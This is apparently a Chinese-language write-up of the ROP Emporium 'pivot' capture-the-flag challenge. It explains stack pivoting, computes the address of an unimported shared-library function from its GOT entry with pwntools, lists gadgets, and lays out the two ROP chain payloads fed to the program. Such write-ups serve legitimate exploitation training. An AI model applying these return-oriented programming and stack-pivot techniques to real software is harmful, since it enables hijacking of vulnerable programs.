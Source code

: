 Hint1:
> There's only enough space for a three-link chain on the stack but you've been given space to
stash a much larger ROP chain elsewhere. Learn how to pivot the stack onto a new location.

Hint2:
> The ret2win() function in the libpivot.so shared object isn't imported, but that doesn't mean
you can't call it using ROP! You'll need to find the .got.plt entry of foothold_function() and
add the offset of ret2win() to it to resolve its actual address. Notice that foothold_function()
isn't called during normal program flow, you'll have to call it first to populate the .got.plt entry.

<br>

## Stack Pivot
简单来说就是：改变 esp 的值，让它指向另一处的内存。

如果某处内存不够放完整的 ROP Chain，我们可以把完整的 ROP Chain 分成数段，分别摆在内存不同处，然后通过改变 esp 逐段执行。

<br>

## Calling Unimported Functions in Shared Library (.so)
这道题我们需要呼叫 ret2win() 来打印 flag，但 ret2win() 在程式中完全没被呼叫，那么我们怎么知道它是真实位址呢？

我们可以用 pwntools 计算出 ret2win() 和 foothold_function() 的偏移量：
```
from pwn import *

lib = ELF('libpivot32.so')
offset = lib.symbols['ret2win'] - lib.symbols['foothold_function']
```

然后我们先呼叫 `foothold_function@plt`，让其真实位址被填入 GOT 内。

接着取得 foothold_function() 在 GOT 中所对应 entry 的位址（注意：是 entry 的位址，不是 foothold_function 本身）
```
elf = ELF('pivot32')
foothold_function_got = elf.got['foothold_function']
```

也就是说，foothold_function_got 指向的内存空间中，存的就是 foothold_function() 的真实位址。

有了 foothold_function() 的真实位址，我们只要再加上刚刚算的 offset，就会得到 ret2win() 的真实位址了。
```
ret2win 真实位址 = [foothold_function_got] + offset
```

<br>

## Reverse
这题在 pwnme() 里面调用两次 fgets()：
1. 第一次，会写入 heap 某处（题目在一开始就先用 malloc() 获得了 heap 上 100 bytes 的空间，后面才呼叫 fgets()）
2. 第二次，会写入 stack（但最多只让使用者写0x3a bytes）

所以我们要做什么呢？
1. 第一次，题目要我们输入我们真正的 ROP Chain
2. 第二次，题目要我们进行 stack pivot

我們只要先 stack pivot，然後想辦法執行到 ret2win() 這個函數就可以了。

<br>

## ROP Gadgets
先看看题目给了哪些 gadgets：
```
pwndbg> disas usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x080488c0 <+0>:     pop    eax                  <--- gadget1
   0x080488c1 <+1>:     ret
   0x080488c2 <+2>:     xchg   esp,eax              <--- gadget2
   0x080488c3 <+3>:     ret
   0x080488c4 <+4>:     mov    eax,DWORD PTR [eax]  <--- gadget4
   0x080488c6 <+6>:     ret
   0x080488c7 <+7>:     add    eax,ebx              <--- gadget3
   0x080488c9 <+9>:     ret
（省略若干行）
```

用 `ROPGadget --binary pivot32` 可以再找到兩个有用的 gadgets：
```
0x08048571 : pop ebx ; ret   <--- gadget5
0x080486a3 : call eax        <--- gadget6
```

<br>

## Pwn
有了以上六个 gadgets，我们可以设计 ROP Chain 了。

下面这段输入到第一次 fgets() 里：
```
ret: foothold_function@plt +
ret: gadget1 +
eax: foothold_function@got.plt +
ret: gadget4 +   ---> eax = foothold_function() 的真实位址
ret: gadget5 +
ebx: offset +    ---> 0x1f7
ret: gadget3 +   ---> add eax, ebx 之后，eax = ret2win() 的真实位址
ret: gadget6     ---> call eax
```

下面这段输入到第二次 fgets() 里：
```
padding: 11 * 'AAAA' +
ret: gadget1 +
eax: pivot_dest +
ret: gadget2
```
